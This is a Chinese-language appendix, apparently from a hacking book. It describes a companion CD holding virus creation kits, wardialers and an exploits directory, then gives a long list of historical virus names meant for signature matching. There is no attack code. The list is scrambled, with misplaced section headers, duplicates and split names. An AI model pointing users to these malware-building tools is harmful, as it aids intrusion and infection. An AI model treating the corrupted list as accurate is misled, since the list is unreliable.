计算机病毒是一种程序，当它被激活时，会将自身的代码复制到一个或多个更大的宿主程序中；当运行受感染的程序时，病毒代码被执行，病毒进行自我复制。这意味着除了可执行文件，控制你硬盘的代码也可能被感染。

**程序：**
- Nuke Virus Creation
- Virus Creation Lab
- Word 97 Cons Kit

### 语音拨号器
语音拨号器是开发用于探测整个电话交换机及更多目标的程序。其基本原理很简单：如果你拨打一个号码，你的调制解调器给出潜在的 CONNECT 状态，它就会被记录。否则，计算机会挂机并不知疲倦地拨打下一个号码，以此类推。

**程序：**
- THCScan
- Toneloc
- PBX Scanner
- Phonetag
- Wardialer


**图 E.3** 第 9、10 和 11 章的内容。

## 第 9、10 和 11 章

**程序：** 见图 E.3。

此目录中的文件与第 9、10 和 11 章中介绍的漏洞利用相对应。这些黑客机密涵盖了网关、互联网服务器守护进程、操作系统、代理服务器和防火墙。

## 工具

为了适配缺少必要编译器以使用本 CD 中包含的某些软件的类 UNIX 操作系统，此目录中的文件包含适用于 DOS 和兼容 Windows 系统的 C 编译器。

**程序：**

- Pacific
- Pic785
- Z80

## 附录 F

## 最常见的病毒

根据其特定的恶意操作形式，病毒被分类为：分区扇区病毒、引导扇区病毒、文件感染病毒、多态病毒、多部分病毒、特洛伊木马病毒、蠕虫病毒或宏病毒。以下列表列出了当今已知 69,000 多种病毒中最常见的几种。这些名称可以与嗅探器捕获数据字段中发现的 ASCII 字符进行比较，用于病毒签名评估。

- A-204
- A4F-Spoof
- A97M/AccessiV
- Abraxas
- Access virus
- AccessiV
- AccessiV.B
- Acorigil
- Acy.790
- Ada
- Adolf
- Advent
- Afp_AfpInfo
- AfpInfo
- Agent
- Angelina
- Angus
- Animus
- AniSR1
- Anna
- Anthrax
- anti-CDA
- Anti-Cmos
- Anti-D
- Anti-Exe
- Anti-MIT
- Anti-tel
- AntiCAD
- AntiChrist
- AntiCMOS
- AntiDMV
- AntiExe
- Antimon
- AntiNS
- AntiPascal
- AntiPascal II
- Anto
- Anxiety.A
- Anxiety.B
- AOL
- AOL.PWSTEAL
- AOL.Trojan
- Agiplan
- AI
- AIDS II
- Aircop
- Akuku
- Alabama
- Alameda
- Albania
- Alcon
- Alex
- Alex-818
- Alexander
- Alfo
- Alfons
- Alien
- Armagedon
- Arriba
- Arusiek
- Ash
- Ash-743
- Astral_Zeuss
- ASStroll_Zeuss
- Astra
- Astral
- AT
- AT II
- Atas
- Athens
- Atom
- Attention
- August 16th
- Avalanche
- AZEUSS-1
- Azusa
- B1
- Baba.470
- Baba.700
- Baboon
- Baby
- Back Office
- Backfont
- Backform
- Alphabet
- Alphastrike
- Alwasy.2000
- AM/AccessiV
- AM/Cross
- Ambulance
- Amilia
- AmiMacro
- Amoebe
- AMSE
- Amstrad
- ANANAS
- Anarkia
- Andryushka
- Angarsk
- BAT.Orag
- BBS-1643
- Beast
- Bebe
- Bebe-486
- Beer
- Beijing
- Beryllium
- Best Wishes
- Best Wishes-970
- Beta
- Betaboys
- Better World
- Beware
- Bewarebug
- BFD
- Big Caibu
- Big Joke
- BigMouse
- BillMe
- Biological Warfare
- Bios
- BIOPASS
- Birdie
- Bit Addict
- Bizatch
- Black Jac
- Black Monday
- Black Peter
- Black Widow
- Black Wizard
- BlackJacek
- Bleak
- Bleah.C
- Blee
- Blinker
- Bliss
- Blood
- Blood-2
- Bloodhound
- BloodLust
- Bloody!
- Bloomington
- Cascade.a
- Casino
- Casper
- Catholic
- Caz
- CB-1530
- CB-4111
- CC
- CD
- CDC-BO
- CDC-BO.A
- CDC-BO.Addon.A
- CDC-BO.Addon.A1
- CDC-BO.Addon.B
- CDC-BO.Addon.C
- CDC-BO.Addon.D
- CDC-BO.Addon.E
- CDC-BO.Addon.E1
- Cemetry
- Central Point
- Century
- Cerebrus
- Chad
- Chance
- Changsha
- Chaors
- Chavez
- CheapExe
- Checksum
- Checksum 1.01
- Cheeba
- Chemist
- Chemnitz
- Cheolsoo
- Chicago 7
- Chill
- Chinese_Fish
- Carfield
- Carioca
- Cartman
- Cascade
- Cascade-17Y4
- Cascade.1701.K
- Copmpl
- CopyCap
- Cophard
- Cofyrace
- Copyright
- Coruna
- Cosenza
- Cossiga
- Count
- Counter
- Counter.A
- Cover Girl
- CPAV
- Cpw
- Crackpot-208
- Cracky
- Crash
- Crazy
- Crazy Eddie
- Crazy imp
- Crazy_Lord
- Crazyboot
- CrazyPunk.500
- Creator
- Creeper
- Creeper-425
- Creeper-476
- Creeping Death
- Creeping Tormentor
- Crepate
- Crew-2480
- Cri-Cri
- Criminal
- Crooked
- Cross
- Cross.A
- Cross.D
- Crotale
- Cruel
- Cruncker
- Crusaders
- Crypt.A
- Cryptlab
- Dir-II.Byway
- Dir.Byway
- DirFill
- Chippeway
- Choinka
- CHOLEEPA
- CHOLLEPA
- Christmas in Japan
- Christmas Tree
- Cryptor-based
- CSFR-1000
- CSL
- CSL-V4
- CSL-V5
- CSSR 528
- CUP
- CurSy
- Civil_Defense
- CVirus
- Cyber Riot
- CyberAIDS
- D2D
- D3
- DA'BOYS
- Dad
- Dada
- Dagger
- Dalian
- Damage
- Damage-2
- DAME
- Daniel
- Danish Tiny
- Danish Tiny.163
- Danish Tiny.476
- Danube
- Dark
- Dark Avenger
- Dark End
- Dark Lord DarkElf
- Darkside
- Dash-em
- Data Molester
- DataCrime
- Datacrime II
- Datalock
- Datalock-1043
- Date
- Datos
- David
- Davis
- Day10
- Dutch Tiny
- Dutch Tiny-124
- Dutch Tiny-99
- Death to Msoft
- Death to Pascal
- December 24th
- Dedicated
- Deeyaenda
- Deependa Maddick
- Defo
- Defrag
- Deicide
- Deicide II
- DelcMos
- Delwin
- Dementia
- Democracy
- Demolition
- Demon
- Den Zuk
- Denzuko
- Desktop.Puzzle
- Destructor
- Detox
- Deviant Mind
- Devil
- Devil’s Dance
- Dewdz
- DGME
- DH2
- Diablo
- Diabolik
- Diamond
- Die Hard 2
- Die_Hard
- Die_Lamer
- Digger
- Digital F/X
- Digress
- Dima
- Dinamo
- DIR
- DIR-II
- Espejo
- Esperanto
- Essex
- Ether
- EUPM
- Europe ‘92
- Evah
- Evil
- Excel.Formula
- Excel.Macro
- Excel8_Extras
- ExcelFormula
- ExcelMacro
- DirIL.TheIndy
- Discom
- Disk Killer
- Diskspoiler
- Diskwasher_
- Dismember
- Dismomia
- Divina
- DM
- DM-310
- DM-330
- DMSetup
- DMV
- Do-Nothing
- Dodgy
- Donald Duck
- Donatello
- Doodle
- Doom II
- DOOM_II_Death
- Doomsday
- DOS-62
- DOShunt
- Dossound
- Dot Killer
- Dot eater
- DR&ET
- Dr. Q.
- Drain
- Drazil
- DRET
- DSCE
- DSME
- Dual_GTM
- DuBois
- Dull Boy
- Dullboy
- Durban
- Dutch 424
- Dutch 555
- FGT
- FI.2173
- Fichv 2.0
- Fichv 2.1
- Fichv-EXE 1.0
- Fifteen_Years
- Fifty Boot
- Fildate 11
- Fildate 11-537
- Filehider
- Filler
- Findme.470
- FIND_ME
- Dyslexia
- DZT
- E.T.C.
- Ear
- Earthday
- Eastern Digital
- Ebola
- Eclypse
- Eco
- Eddie
- Eddie 2
- EDS
- EDV
- Edwin
- EE
- Ehhehe
- EICAR-test
- Eight tunes
- Einstein
- Ekaterinburg
- EkoTerror
- Eliza
- Eliza.1282
- Elvira
- Elvis
- Embarrassment
- EMF
- Emmie
- Empire.Monkey
- End of
- End Times
- Enemy
- ENET 37
- Enigma
- Enjoy
- Enola
- Enun
- Epr
- Erasmus
- Error_vir
- Freelove
- Freew
- French Boot
- Frere Jacques s
- Friday
- Friday the 13th
- Friday-13th-440
- Friends
- Frodo
- Frodo Soft
- Frog’s Alley
- Frogs
- FruitFly
- Bresi
- Brothers
- Bryansk
- Bua
- Bubbles
- Bud Frogs
- Christmas Violator
- Chuang
- CIH
- CIHV
- Cinco
- Cinderella
- Cinderella II
- Civil_Defense
- Class.s2
- Class.t
- Claws
- Cleaner
- Click
- Clint
- Clipper
- CLME
- Clock
- clockS
- Clonewar
- Close
- Cloud
- CIs
- CMD640X
- CMOS-1
- CNDER
- Cod
- Code Zero
- Coffeeshop
- Colors
- Columbus Day
- Com2con
- Comasp-472
- Commander Bomber
- Como
- COMPIAC
- Concept
- Concept.BZ
- Concept.F
- Concept.G
- Condom
- Continua
- Cookie
- Cookie!
- dBASE
- DBF Virus
- Deadbabe
- Backformat
- Backtime
- Bad Boy
- Bad Taste
- BadGuy
- BadSector
- Baft
- Bamestra
- Banana
- Bandit
- Bandung
- Bang
- Baobab
- Barcelona
- Barrotes
- BatMan_I
- Budfrogs
- Budo
- Buero
- Bug
- Bug70
- Bug_070
- Bugs
- Bugres
- Bukit
- BUPT
- Bupboot
- Burget
- Burger 382
- Burger 405
- Burghofoer
- Burglar
- Busted
- Butterfly
- Butthead
- BW
- Bye
- Byway
- Bzz
- Bzz-based
- C-23693
- Cabanas
- Cabanas.B
- Cadkill
- Cancer
- Cansu
- Cantando
- CAP
- CAP.dam
- Capital
- Captial
- Captain Trips
- CARA
- Blue_Nine
- Blue_Nine.925.C
- Blueis and Granola
- BO
- Boat
- Bob
- BOCLIENT
- Bogus
- Bomber
- Bombtrack
- Bombtrack.B
- Bond.A
- Bones
- Bonk
- Boojum
- Boot-437
- BootExe
- Bootgag
- Boot.Malice
- Bootstrap
- Borderline
- BOSSERVE
- Bouncing Ball
- Box.G
- Box.H
- BoxBox
- Boys
- Boza.A
- Boza.B
- Boza.C
- Brain
- Brainy
- Bravo
- Brazil
- Breasts
- Breeder
- Brenda


## 病毒列表

- ExeBug
- Experimental
- Explosion-II
- Extasy
- Exterminator
- Extras
- ExVC
- Eyes
- F-Soft
- F-Soft 563
- F-word
- F-you
- F1-337
- Face
- Fair
- Fairz
- Fake VirX
- Falling Letters
- Fangs
- Farside
- FATE3.0
- Father Christmas
- Faust
- Fax Free
- FCB
- FD622
- Fear
- Feint
- Feist
- Fellowship
- FindMe
- Finger
- Finnish
- Finnish Spray er
- Finnish-357
- Finnpoly
- Fischer Price 96
- Fish Boot
- Fist
- Fitw
- Fitw.3794
- FJM
- Flame
- Flash
- Flip
- Floss
- Flower
- Forger
- Form
- Form.D
- FORM_A
- FORM_D
- FormatC
- Formiche
- Frank
- Frankster
- Frankenstein
- Freaky
- Freddy
- Freddy_Soft
- FS
- Fu Manchu
- Fumble
- Funeral
- Fungus
- FunYour
- Futhark
- G-Virus
- G2
- Galicia
- Gaxelle
- Gdynia.680
- Geek
- GenB
- Gene
- Generic Boot
- Genmops
- Genocide
- GenP
- GenVir
- Gergana
- Gergana-222
- Gergana-300
- Gergana-450
- Gergana-512
- Ghost
- GhostBalls
- Ghosts
- Ginger
- Gingerbread man
- Girafe
- Gliss
- Globe
- Glupak
- GMB
- Gnu
- Goblin
- Goblin.A
- Gold
- Goldbug
- Goldfish
- Gomb
- Good News
- Good Times
- Goodbye
- Gorg
- Gonzal.60
- Gosia
- Got You
- Gotcha
- Gotcha-D
- Gotcha-E
- Gotcha-F
- Hacker
- HCarry.826
- Hackingburgh
- Haddock
- Hafenstrasse
- Haifa
- Haifa
- Halloechen
- Hamster
- Hanger
- Hanta
- Happy
- Happy Birthday
- Happy Day
- Happy Monday
- Happy New Year
- Harakiri
- Hare
- Hare.7750
- Hare.7786
- Hark
- Harkone
- Harry
- Hippie
- Hitchcock
- Hitchcock.1238
- HIV
- HK
- HLL
- HLLC
- HLLC.Plane
- HLLC.TA_VC.18287
- HLLO
- HLLO.17892
- HLLO.40932
- HLLO.41478
- HLLO.C_Viruses.4601
- HLLO.Honi
- HLLO.Kamikaze
- HLLO.Lowlevel
- HLLO.Novademo.A
- HLLO.Novademo.B
- HLLP
- HLLP.3263
- HLLP.4608
- HLLP.4676
- HLLP.5850
- HLLP.5880
- HLLP.6146
- HLLP.16196
- HLLP.Brian.4933
- HLLP.Fidonet.7200
- HLLP.HTC
- HLLP.Krile
- HLLP.Sri.4996
- HLLP.Sui.5674
- HLLP.Voodoo.4415
- HLLT
- HLLT.6917
- HLLT.Krile
- HLLW.Ehhhe
- HM2
- HndV
- Holland Girl
- Honev
- Hong Kong
- Itavir
- Itti
- Iuta99
- Iv an a
- IVP
- IVP.781
- IVP.848
- J&M
- J.S.Bach
- Jabberwocky
- JSB
- July 13th
- Jumper
- June 16th
- June 7
- June_4th
- Junior
- Junkie
- Jurassic.3763
- Just ice
- Lisbon
- Lithium
- Little Brother
- Little Girl
- Little Pieces
- Little Red
- LiXi
- Lizard
- Loading Bootstrap
- Locker
- Login
- Loki
- Lomza
- Londhouse
- Lord Zero
- Lordzero
- Loslobos
- Love
- LoveChild
- Love You, I
- Lowercase
- Lozinsky
- Iptl
- Lucifer
- Ludwig Boot Bait
- Ludwig_EXE_Bait
- Lunch
- Lyc eu m
- Lyceum-1788
- Lyceum-1832
- LZR
- Macabi
- Macedonia
- MacGyver
- Macho
- Macro
- Macro.Access
- Macro.Excel
- Macro.Word
- Mad Satan
- MadMan
- Mages.604
- Mages.606
- Magnitogorsk
- Major
- MajorBBS
- Malaga
- Malaise
- Malmsel
- Maltese Amoeba
- Mange-Tout
- Manitoba
- Mannequin
- Manowar
- Manta
- Manuel
- Many Fingers
- Manzon
- Mao
- Marauder
- Marauder-560
- Marburg
- Mardi Bros
- Markj
- Markt
- Mars Land
- Math-Test
- Matra
- Matura
- Mcgy
- McWhale
- MDMA
- MDMA.AK
- MDMA.BE
- MDMA.C
- Meatgrinder
- Media
- Meditation
- Melissa
- Meme
- Memorial
- Memorial Abend
- Memory Lapse
- Memphis.98.MMS
- Mendoza
- Mental
- NaughtyRobot
- Navrhar
- Nazgul
- Naziskin
- Naziskin 2
- Ncu Li
- Necros
- NED
- Neko
- Neko.2690
- Merde
- Messina
- Metal Thunder
- MG
- MGTU
- MH-757
- Michelangelo
- Micro-128
- Microbes
- Microelephant
- Microsofa
- Migram
- Miky
- Milan
- Milana
- Milano
- Millenium
- Milous
- Mimic
- Ming
- Minimal
- Ministry
- Minnow
- Minsk
- Minsk Ghost
- Minus1
- MIR
- mIRC/Gerr_exe
- mIRC-virus
- mIRC/Worm_exe
- Mirror
- Misis
- MIX-2
- MIX1
- MLTI
- MMIR
- MMIR.DAS_BOOT
- Moctezuma
- Mog
- Moloch
- Monday 1st
- Monica
- Monika
- Nomenklatura
- Noon beep
- Nop
- Nops
- Noyet
- Nov 30.
- Nov7
- November
- November 13th
- November_17th
- Monkey
- Mono
- Monster.342
- Month 4-6
- Monxla
- Moose
- Morgoth.189
- Mosquito
- Move
- MPS-OPC
- MPS-OPC 1.1
- MPS-OPC 4.01
- Mr. D
- Mr. Virus
- Mr_D
- MrKlunky
- Mshark
- MSK
- MSTU
- MSTU.554
- MiE
- Mtf
- Mtf1
- Mud
- Mule
- MultiAni
- Mummy
- Munich
- Murphy
- Murphy-2
- Music Bug
- MutaGen
- Mutant
- Mutation Engine
- MVF
- MX
- Mystic
- N.R.L.G.
- N8fall
- Nabob
- Nado
- Natas
- Naughty Hacker
- One Half
- Onkogen
- Only
- Ontario
- Ontario-730
- Orion
- Orion-365
- Ornate
- Orpax
- Otto6
- Immortal.392
- Imp
- Implant
- Imposter
- Imposter.E
- Incom
- Indepe ndence
- Indones ia
- Inexist
- Infant
- Kaczor
- Kalah
- Kamikaze
- Kampa na
- Kansas
- Kaos4
- Karin
- Karnavali
- KBD bug
- KBUG
- KBUG1720
- Keeper
- Kemerovo
- Kemerovo-B
- Ken&Desmond
- Kendesm
- Kennedy
- Kenny
- Kersplat
- Keyboard bug
- Key press
- Khoobar
- Kiev
- Killer
- Kinison
- Kinnison
- Kiss
- Kiss of Death
- Kit
- Kiwi
- KKY
- Klaer en
- KLF
- KMIT
- KO
- Ko-407
- Kommi
- Kompu
- Kompu.I
- Kompu.Newvar2
- Korea
- Krakow
- Krile
- Krishna
- Krivimous
- Krn l
- Krsna
- Kthullu
- Kukac
- Kuku
- KushKush
- Kuzmitch
- Kwok
- Kylie
- La multi ani
- LadyDi
- Lambada
- Lao Doung
- Lapse
- Laroux
- Larry
- Later
- Lavot
- Lazy
- LBC Boot
- Leandro
- Leapfrog
- Lego
- Legozz
- Lehig
- Lemming
- Lennart
- Leningrad
- Lennon
- Leo
- Leprosy
- Leprosy-C
- Leprosy-D
- Letter_h
- Liberty
- Lima
- Linux virus
- Linux/B liss
- Linux/Staog
- Lippi
- GP1
- GPE
- Grangrave
- Grapejl
- Gremlin
- Green Caterpillar
- Green Stripe
- Gremlin
- Grither
- Groen Links
- Grog
- Groov
- Groove
- Groovie
- Grune
- Gullich
- Guppy
- Gyorgy
- Gyro
- Hooiker
- Hooters
- Hooze
- Horror
- Horse
- Horse Boot
- Hot
- HPS
- HS-VS
- Hungarian
- Hungarian
- Hungarian.1409
- Hungarian.473
- Hungarian Kiss.1006
- Hungarian Kiss.1015
- Hybray
- Hydray
- Hypervisor
- Ibex
- Ice-9
- Icelandic
- Icelandic-2
- IDF
- IE080898
- Ier
- Ieronim
- IHC
- IKV 528
- ILL
- Ilove
- I Love You
- Immortal Riot
- Immortal.282
- Hary Anto
- Hasita
- Hastings
- Hate
- Havoc
- HDEuthanasia
- HDKiller
- Headache
- Heevahava
- Helloween
- Helper
- Henon
- Hero
- Hero-394
- Hey You
- HH&H
- Hi
- Hide and Seek
- Hidenowt
- Highlander
- Infezone
- Info Trojan
- INT-CE
- Int10
- Int12
- Int40
- Int83
- Int86
- Int_0B
- INT_7F
- INT_AA
- INT_CE
- INT C
- IntC1
- INTCE
- Interceptor
- Internal
- Intruder
- Intruder-742
- Invader
- Invisible
- IOE
- Ioniin
- Iper
- IRA
- Iraqi Warrior
- IRC-Virus
- Irina
- Irish
- Iron Maiden
- Irus
- Israeli
- IstanbulCCC
- Jack the Ripper
- Jackal
- Japanese Christmas
- Japanese Xmas
- Java virus
- JD
- Jeddah
- Jeff
- Jerk
- JerkIn
- Jerusalem
- JETDB
- JETDB ACCESS
- Jews
- JH
- Jihu.u.621
- Jihu.u.686
- Jimi
- Jindra
- Jo
- Jo-Jo
- Joe’s Demise
- Johnny
- Johnny.B
- Join the club
- Join the Crew
- Joke Program
- Joke.Win.Desktop.Puzzle
- Joke.Win.Stupid
- Joker
- Joker-01
- Joshi
- Joshua
- Nemo
- Net.666
- NetBus.160
- Neurobasher
- Neuroquila
- Neuville
- New 800
- New BadGuy
- New Vienna
- New Zealand
- New-Zealand
- Newboot
- Newboot_1
- NewBug
- News Flash
- NF
- NGV
- Nice
- NiceDay
- Nightbird
- Nightfall
- Niknat
- Nilz
- Nina
- Nina-2
- Nines Complement
- NJH-LBC
- NKOTB
- No Bock
- No Chance.F
- No Frills
- No. of the Beast
- NoInt
- November_17th.584
- November_17th.690
- November_17th.706
- November_17th.768
- November_17th.800.A
- November_17th.855.A
- November_17th.880
- NPad
- Npox
- NRLG
- NTKC
- N'TITHNTA
- Nuclear
- Nuclei.1203
- nul
- Null Set
- Nutcracker
- NV71
- NWait
- NYB
- Nygus
- Offspring
- OFIDX
- Ogre
- Ohio
- Old Yankee
- Olivia
- Olympeic
- Olympic Aids
- Omega
- Omicron
- On 64
- Outland
- Over
- OVER1644
- OverDoze.568
- OverDoze.572
- OverDoze.582
- OverDoze.585
- OverDoze.588
- OverDoze.591
- OverDoze.596
- OverDoze.606
- Padded
- Page
- Paix
- Palette
- Pandalflu
- Panic
- Parasite
- Paris
- Parity
- Parity.Boot.Enc
- Parity.enc
- Parity_Boot
- Pascal 7808
- Pastika
- Path
- Pathhunt
- Pathogen
- Patras
- PayCheck
- Payday
- PC-Flu
- PC-FLU2
- PC-Format
- PCB
- Plague
- Plaice
- Plane
- Plastic Pizza
- Plasticque
- PLDT
- Plovdiv
- Plutto
- PMBS
- PNB
- Pogue
- Point Killer
- Poison
- Polimer
- Polish 637
- Polish Pixel
- Polish Tinty
- Polite
- PolyPoster
- Proud
- Prudents
- Ps1ko
- PS-MPC
- Psychic Neon Budd.
- Psychogenius
- Puerto
- Puppet
- Purcyst
- QD335
- QMU
- QQ-1513
- Qrry
- Pro-aLife
- Proble
- Problem-856
- Problem-863
- Protect
- Protector
- Proto-T


## P
- Peter_II_Runtime
- PG
- Ph33r
- ph_ui.c
- Phalcon
- Phantom
- Phenome PSQR
- Phoenix (800)
- PHX
- Pieck
- Pieck.4444
- Pif-paf
- Piggypack
- Ping-Pong
- Pip i
- Pirat
- Pirate
- Pisello
- Piter
- Pixel
- Pizza
- PKZ300
- PKZIP300
- Rape-2.2
- Rapi
- Rasek
- Raubkopie
- Ravage
- Ray
- Razer
- RD Euthanasia
- Readiosys
- Reboot
- Reboot Patcher
- Red Diavolyata
- Red Diavolyata-662
- Red Spider
- Red-Zar
- Redspide
- Redstar
- RedTeam
- RedX
- Reggie
- Reklama
- Relzfu
- Replicator.472
- Replicator.767
- Replicator.815
- Replicator.888
- REQ!
- Requires
- Rescue
- Reset
- Poppy
- Poppy.II
- Porcupine
- Portugese
- Possessed
- Possible
- Post
- Power_Pump
- Powertrip
- Prague
- Prank
- Pray
- Predator
- Pregnat
- Presentlt
- Press
- Pretentious
- Pretoria
- Price
- Prime
- Print Screen Boot
- prn
- Pro
- RMA-hh
- RNA2
- Rock Steady
- Rogue
- Roma
- Rosen
- RP
- RPS
- RPS.A
- RPS.B
- RPS.C
- RPVS
- rrAa
- RRaA
- RSY
- Russian Mirror
- Russian Mutant
- Russian Tiny
- Russian Virus 666
- Russian_Flag
- Rust
- Ryazan
- Rybka
- S-Bug
- Sabrina
- Sad
- SADAM
- Sadist
- Safwan
- Sampo

## Q
- Quake
- Quandary
- Quandry
- Quarter
- Quart z
- Queeg
- Query
- Quest
- Quicksilver
- Quicky
- Quiet
- Quit-1992
- Quiz
- Qumna
- Quox

## R
- R-440
- Raadioga
- RadioSys
- Rage
- Rainbow
- Rape
- Rape-10
- Rape-11

## S
- School_Suck
- Schrunch
- Scion
- Scitzo
- Scmpoo
- Scotch
- Scott’s Valley
- Scrap Object Files
- Scream
- Screamer
- Screamer II
- Screaming_Fist
- Screen+1
- Scribble
- SCRIPT.INI
- SD-123
- Seacat
- Sean Rowe
- Secret Service
- Secshift
- SemiSoft
- Semtex
- Seneca
- Senorita
- Sentinel
- September 18th
- Seventh son
- Shadov
- Shadowbyte
- Shake
- Resurrect
- Returned
- Revenge
- Reverse
- Reverse.B
- Rex
- Rhubarb
- Richard Keil
- Riibi
- Ripper
- RITT.6917
- RM
- RMA-Hammerhead
- Shirley
- Shiver
- Shiver.A
- Shiver.B
- SHMK
- Shoo
- Showoff
- Showoff.C
- Showoffx
- SHS
- Shutdown
- SHZ
- SI-492
- Sierra
- Sigalit
- Signs
- Silent night
- Silly
- Sillybob
- SillyC.165
- SillyC.316.b
- SillyC.373
- SillyC
- SillyCE
- SillyCER
- SillyCR
- SillyE
- SillyER
- SillyOC.53
- SillyOR
- Simp salapim
- Simulate
- Singapore
- Siskin
- Sistor
- SK
- SK-1004
- SK-1147
- Skater
- Skinner.470
- Sandrine
- Sanpo
- Sarampo
- Sarato ga
- Satan
- SatanBug
- Sathanyk
- Satria
- Satria.B
- Saturday 14th
- SBC
- Sblank
- SC.Replicator
- Slither II
- Slovak Bomber
- Slow
- Slow load
- Sluger
- Slydell
- Snack
- Small EXE
- Small-ARCV
- SmalIv
- SMEG
- SMEG.Pathogen
- SMEG.Queeg
- Smile
- Smiley
- Snake
- Socha
- Sofa
- Solano
- Sorry
- Soup
- South African
- Sova
- Spanish
- Spanska
- Spanska.1000
- Spanska.1120.B
- Spanska.1500
- Spanska.4250
- Spanska_II
- Spanz
- Sparkle
- Sparkt.1360
- Sparse
- Spinit
- Spreader
- Squawk
- Squeaker
- Squisher
- SSSSS
- Shaker
- Share The Fun
- ShareFun
- Shatin
- She_Has
- Sheep
- Shehas
- Shell
- SHHS
- SHHS-B
- Shield
- Shifter
- Shiftpar
- Stanco
- Staog
- Stardot
- Stardot-600
- Stat
- STEALTH_B_KOH
- Stealth_boot
- STEALTH_C
- STELBOO
- Steroid
- Stickykeys
- Stigmata
- StinkFoot
- Stoned
- Stoned.Angelina
- Stoned.i
- Stoned.Kiev
- Stoned.Monkey
- Stoned.P
- Stoned.r

## T
- Toney
- Storm
- Strange Days
- StrangeBrew
- Stranger
- Strezz
- Striker #1
- STSV
- Stupid
- Sub-Zero
- Subliminal
- SUHDLOG.DAT
- Suicidal
- Suicidal Dream
- Suicide
- Sunday
- Suomi
- Superhacker
- Surfer
- Suriv 1
- Suriv 2
- Suriv 3.00
- Surrender
- Slayer
- Sleeper
- Sleepwalker
- Sux
- SVC
- SVC 3.1
- SVC 5.0
- SVC 6.0
- SVC.2936
- Sverdlov
- Swir
- SVS
- Swami
- Swamp
- Swansong
- Swap
- Swedish Boys
- Swedish Disaster
- Swedish Warrior
- Swiss 143
- Swiss Army
- Swiss Phoenix
- Swiss_Boot
- Switch
- SWLABS.G
- SWLABS.N
- Sylvia
- SYP
- SysLock
- T13
- T_Power.Zarma
- Tabulero
- Tack
- Tai-Pan
- Tai-Pan.434
- Tai-Pan.513
- Tai-Pan.666
- Taiwan
- Talon
- Talon.B
- Tannenbaum
- Tanpro
- Tanpro.749
- Tatou
- TCC
- TCV3
- Turbo
- Turbo Antivirus
- Turku
- TV
- Tipo
- Twin
- Staf
- Stahlplatte
- Stamford
- Techno.A
- Telecom
- Telecom Boot
- Telefonica
- Telefonica.D
- Tetatype
- Tempest
- TEMPEST.TEM
- Temple
- Tenbyte
- Tentacle
- Tentacle_II
- Tentacle_III
- Tentatricle
- Toocatl
- Tequila
- Tere
- Terminator
- Terror
- Testivirus B
- TH-IP
- Th-Th
- Thailand
- Thanksgiving
- TheFreak
- Thirteen minutes
- Three_Tunes
- THU
- Thursday 12th
- Tic
- Tim
- Time
- Timemark
- Timeslice
- Timewarp
- Timid
- Timor
- Tiny DI
- Tiny Family
- Tiny Hunter
- Tiny.Ghost
- Tiphooon
- Tired
- V2P6
- V3
- V32
- V3Scan
- Vacsina
- Vacsina Loader
- Titz
- TNT
- Tokyo
- Tony
- Tonya
- Topo
- Tormentor
- Torn
- Toten
- Toten.A
- Toten.B
- Touche
- TOX
- TPE
- Tpvo
- Trabajo_hacer.b
- Traceback
- Trackswap
- Trakia
- Trash.b
- Traveller
- Tremor
- Triadi.3998
- Trigger
- Triple
- Trivial
- Trivial-based
- Trivial.Elf.256
- TrlP
- Troi
- Troi II
- Trojan
- Trojan-17
- Trojan.Cmd640x
- Trojector
- TS
- TS.1200
- Tsadbot
- Tubo
- Tula
- Tula-419
- Tumen
- TUQ
- Virus Creation Center
- Virus Lesson
- Virus-101
- Virus-90
- Virus-B
- Virus9
- Twins
- Twino
- Typo
- Typo-COM
- TZ

## U
- Uddy
- Uestc
- Ufa
- UFO
- Ultras.A
- Ultras.B
- Ultras.C
- Ultras.Ice
- Unashamed
- Unesco
- Uneven
- Ungame
- Unix virus
- Unprotected
- Unwise
- Updown
- Urkel
- Uruguay
- Use killer
- Ussher.553
- USSR 2144
- USSR 516
- USSR 905
- USSR-311
- USSR-707
- UVScan

## V
- V-1024
- V-Sign
- V.1345
- V.738
- V2P1
- V2P2
- Wazzu.DU
- Wazzu.E
- Wazzu.F
- Wazzu.G
- Wazzu.X
- We're here
- Weasel
- Wedding
- Weed
- Welcomb
- Welcomeb
- Wench
- Werbe
- WereWolf
- Werewolf.1500.B
- WeR5lilly
- VacsnlLloadr
- Valert
- Vbasic
- VCC
- VCL
- VCL.716
- VCL.RedTeam
- VCL.Werbe
- Vcomm
- VCS
- VDV-853
- Vengeance
- Venom
- VFSI
- Vice
- Vice.05.Code
- VICE5
- Victor
- Vienna
- Vienna.2279
- Vienna.Bua
- Vienna.Reboot
- Vindicator
- Violator
- Violetta
- Viper
- Viperize
- Viral Code B
- Viral Code F
- Viral_Messiah
- Virdem
- VirDem 792
- Virdem 824
- Viresc
- Virogen
- Virtual Onkogen
- Virus #2
- Wolleh
- Wonder
- Wonka
- Word.Macro
- WordMacro
- WordMacro/CAP
- WordMacro/Ivana
- WordMacro/Vicinity
- Words
- Wordswap
- World Cup Fever
- WorldCup98
- Worm-16580
- Wormy-1
- WW-217
- WW6Macro
- Vision.Boot
- Vivaldi
- Vivi.a
- VLamiX
- Void Poem
- Voronezh
- Voronezh-370
- Voronezh-600
- Vote
- VP
- Vriest
- VVF 3,4

## W
- W-13
- W-13 C
- W-boot
- W.E.T.
- W32.Semisoft.59904C
- W32.Semisoft.Gen
- W95.Marburg.B
- W95/Anxiety
- W95/Apparition.B
- W97M
- Walkabout
- Walker
- WareZ
- Warrior
- Warrior
- Wazzu
- Wazzu.A
- Wazzu.B
- Wazzu.C
- Wazzu.D
- Wazzu.DG
- Wazzu.DH
- Wazzu.DO
- Wazzu.DP
- Wazzu.DS
- XM/Shiver
- XM/Shiver.A
- XM/Trasher.D
- XM/Trasher.E
- XM97
- Xmas in Japan
- XPEH
- Xtac
- Xtrataink
- Xuxa

## Y
- Y2K
- Yaffo
- Yale
- Yankee
- Yankee-1150
- Yankee-1202
- Westwood
- WET
- Whale
- Whisper
- Why Windows
- Wilbur
- Win a holiday
- WINA
- Windel
- WinDoom
- Windows virus
- Wineyes
- WinVir
- WinWord
- Wisconsin
- Witch
- Wicode
- Wizard
- Willop
- W97M/Groov.B
- WM
- WM/Appder.Q
- WM/CAP.dam
- WM/Cross
- WM97
- WM/Mental.A
- Wolfman

## Z
- Zero Bug
- Zero Hunter
- Zero-to-0
- Zharinov
- Zherkov
- WWT
- X-1
- X-Fungus
- X97F
- X97M
- XA1
- Xabaras
- Xboot
- XF
- XF/Paix
- XF97
- XLFormula
- XLMacro
- XM
- XM/Compat.A
- XM/Dado.A
- XM/Extras
- XM/Laroux.EB
- XM/Laroux.EC
- XM/Laroux.EK
- XM/Laroux.EE
- XM/Laroux.Newvar8
